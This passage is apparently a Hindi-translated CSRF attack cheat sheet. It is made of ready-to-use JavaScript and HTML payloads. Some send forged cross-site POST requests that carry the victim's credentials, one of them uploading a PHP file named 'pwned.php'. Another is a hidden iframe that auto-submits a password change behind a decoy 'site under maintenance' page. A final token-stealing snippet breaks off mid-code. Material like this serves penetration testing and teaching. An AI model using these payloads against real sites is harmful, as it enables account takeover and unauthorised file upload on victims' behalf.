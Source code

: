 ```javascript
myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
method: "post",
body: myFormData,
credentials: "include",
headers: {"Content-Type": "application/x-www-form-urlencoded"},
mode: "no-cors"
});
```
### multipart/form-data POST अनुरोध v2
```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```
### एक iframe के भीतर Form POST अनुरोध
```html
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
### **CSRF टोकन चुराएं और एक POST अनुरोध भेजें**
```javascript
function submitFormWithTokenJS(token) {
var xhr = new XMLHttpRequest();
xhr.open("POST", POST_URL, true);
xhr.withCredentials = true;

// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

// This is for debugging and can be removed
xhr.onreadystatechange = function() {
if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
```